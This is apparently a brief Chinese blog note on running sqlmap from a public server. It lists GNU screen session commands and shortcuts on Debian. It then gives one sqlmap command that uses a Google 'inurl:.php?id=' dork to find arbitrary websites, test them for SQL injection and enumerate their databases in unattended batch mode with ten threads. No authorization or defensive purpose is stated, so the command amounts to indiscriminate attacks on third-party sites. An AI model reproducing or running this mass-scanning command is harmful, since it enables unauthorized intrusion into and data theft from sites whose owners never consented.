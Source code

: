 ```yaml
---
title: 公网sqlmap
toc: true
date: 2022-01-21 14:09:53
tags:
categories:
---
```


### Linux-debian

apt-get install screen

创建会话
screen -S yigehuihua

列出会话
screen -ls

恢复会话
screen -r yigehuihua

关闭screen的会话
exit

常用快捷键
Ctrl+a c ：在当前screen会话中创建窗口
Ctrl+a w ：窗口列表
Ctrl+a n ：下一个窗口
Ctrl+a p ：上一个窗口
Ctrl+a 0-9 ：在第0个窗口和第9个窗口之间切换



google+sqlmap:`sqlmap -g "inurl:\".php?id=某id\"" --dbs --batch --threads 10 --technique EQUT | tee /home/"id=某id"`


## 参考资料
> - [SSH远程会话管理工具 - screen使用教程](https://www.vpser.net/manage/screen.html)
